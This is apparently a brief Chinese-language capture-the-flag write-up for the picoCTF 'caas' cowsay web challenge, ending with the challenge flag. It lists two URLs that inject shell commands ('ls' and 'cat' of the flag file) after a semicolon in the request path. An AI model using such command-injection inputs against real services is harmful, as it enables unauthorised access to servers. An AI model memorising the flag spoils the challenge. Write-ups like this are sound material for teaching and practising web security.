 # caas
---

## Question
[Challenge](https://caas.mars.picoctf.net/cowsay/Hello%20World)

## Solution

下載下來的js就是這個網站的服務呼叫方式，簡單來說就是呼叫他的api配上參數，會幫你印出一隻講出你參數的牛。

```
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

那應該就是要靠injection了，研究了下那個js，試著用單引號或分號的去看看不能不讀取目錄，最後成功找到injection方式跟儲存flag的記事本：
- `https://caas.mars.picoctf.net/cowsay/test;ls`
- `https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt`

## Flag

picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

